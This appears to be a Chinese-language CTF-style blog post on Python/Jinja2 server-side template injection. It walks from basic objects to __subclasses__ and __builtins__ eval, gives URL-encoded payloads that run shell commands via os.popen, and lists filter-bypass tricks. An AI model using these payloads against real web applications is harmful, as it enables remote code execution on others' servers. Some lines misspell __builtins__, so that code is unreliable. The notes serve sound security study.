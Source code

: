 ```yaml
---
layout:     post
title:      ssti
subtitle:   ssti
date:       2023-04-18
author:     xc
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - web安全
---
```

# ssti
我们首先要拿到一个类，因为再python中一切都是对象

''.__class__是str类
().__class__是tuple类
[].__class__是list类
{}.__class__是dict类

下一步是拿到所有类继承的基类object类，可以利用__mro__或__base__来获取

''.__class__.__mro__[1]

''.__class__.__mro__[2]

''.__class__.__base__

''.__class__.__bases__[1]

拿到基类后我们找到子类__subclasses__()

可利用的子类,只要子类被重载了并且func_globals中有__builtins__ 其中有（59）catch_warnings （71）site._Printer  (80)operator.itemgetter (166)jinja2.compiler.MacroRef （149）都可以

在子类中选择可用的类，去获取它们的globals变量，若类没有被重载，则它们并不是函数，没有__globals__属性（看__init__是否有slot wrapper)

若重载了看它们的__globals__中是否有__builtins__,这是对内建模块的引用，内建模块中有eval函数（或者func_globals.keys()中是否有__bulitins__）

若有，则使用
```
%7B%7B().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__(%22os%22).popen(%22cat fl4g%22).read()' )%7D%7D这里的13也即是下面的__bulitins__所在的索引

().__class__.__base__.__subclasses__()[59].__init__.__globals__['__bulitins__']查看该类的全局函数是否有__builtins__对内置模块引用

().__class__.__base__.__subclasses__()[59].__init__.__globals__['__bulitins__']['eval']查看内置模块中是否有eval函数

%7B%7B().__class__.__base__.__subclasses__()[59].__init__.__globals__['__bulitins__']['eval']('__import__(%22os%22).popen(%22cat fl4g%22).read()' )%7D%7D
```

## 过滤绕过
### 关键字绕过，如.和class
1.{{''.__class__}}等价于{{''["__class__"]}}

可以对其中关键字或部分使用16进制编码，unicode编码

2.引号绕过
{{''["__cla""ss__"]}}

### 中括号过滤
1.使用__getitem__函数即可，__getitem__(i)等价于[i]，也就是获取第i个元素

2.使用pop函数,pop(i)

3.使用.来访问，例如__globals__.__builtins__

### _过滤
使用request对象
例如{{()[request.args.class][request.args.bases][0]

### {{}}过滤
```
{% %}
```

